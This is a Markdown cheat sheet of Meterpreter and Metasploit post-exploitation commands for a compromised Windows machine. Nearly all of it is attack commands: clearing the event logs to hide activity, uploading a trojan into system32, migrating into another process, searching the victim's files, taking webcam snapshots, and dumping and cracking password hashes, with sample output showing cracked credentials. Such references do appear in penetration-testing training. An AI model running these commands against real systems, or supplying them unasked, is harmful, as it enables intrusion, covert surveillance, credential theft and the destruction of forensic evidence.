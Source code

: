 # Meterpreter

## navigating

```bash
#Meterpreter commands
meterpreter > background
meterpreter > cat edit.txt
meterpreter > cd c:\windows
meterpreter > ls
meterpreter > lpwd
meterpreter > lcd MSFU

```

## shell

`meterpreter > shell`

## Clear app,sys,security logs on windows

`meterpreter > clearev`

## download/upload

```text
meterpreter > download c:\\boot.ini
meterpreter > upload evil_trojan.exe c:\\windows\\system32
```

## Migrate to process

```text
meterpreter > run post/windows/manage/migrate 
meterpreter > ps
meterpreter > migrate <pid>
```

## Run commands in script

```bash
cat resource.txt
ls
background

meterpreter > resource resource.txt
#[*] Reading /root/resource.txt[*] Running ls
#..
#..
#[*] Backgrounding session 1...

```

## Search files

```bash
meterpreter > search -h
meterpreter > search -f *.jpg
meterpreter > search -d c:\\documents\ and\ settings\\administrator\\desktop\\ -f *.p
```

## Web Cam

```bash
meterpreter > webcam_list
meterpreter > webcam_snap -h
meterpreter > webcam_snap -i 1 -v false
```

## John The Ripper

```bash
msf auxiliary(handler) > use post/windows/gather/hashdumpmsf post(hashdump) > set session 1
msf post(hashdump) > run
msf post(hashdump) > use auxiliary/analyze/jtr_crack_fast
msf auxiliary(jtr_crack_fast) > run
#[+] Cracked: Guest: (192.168.184.134:445)
#[+] Cracked: rAWjAW2:password (192.168.184.134:445)
```

## Netcat connect

```bash
msf > connect 192.168.1.1 23
meterpreter > search -f autoexec.bat
meterpreter > search -f sea*.bat c:\\xamp\\
```



